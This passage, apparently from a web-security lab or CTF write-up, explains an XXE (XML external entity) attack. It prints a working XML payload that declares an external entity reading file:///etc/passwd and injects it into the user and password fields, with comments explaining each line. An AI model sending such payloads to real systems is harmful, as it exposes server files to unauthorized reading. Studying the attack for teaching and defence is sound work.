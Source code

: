 ![xxe6](../assets/img/webRevisited/Screenshot%202024-08-07%20at%2011.15.26.png)

To explain the xml payload,

```xml
<?xml version="1.0"?>
 <!-- This is the version declaration -->
<!DOCTYPE creds [
  <!ENTITY test SYSTEM 'file:///etc/passwd'>
]>
<!-- This is to declare an external entity named 'test'. The 'test' entity is set to the content of the file `/etc/passwd` -->
<creds>
<!-- This is the root element of the XML document -->
  <user>&test;</user>
  <!-- This contains entity reference. XML parser will attempt to replace `&test;` with the content of `/etc/passwd` -->
  <password>&test;</password>
</creds>
```
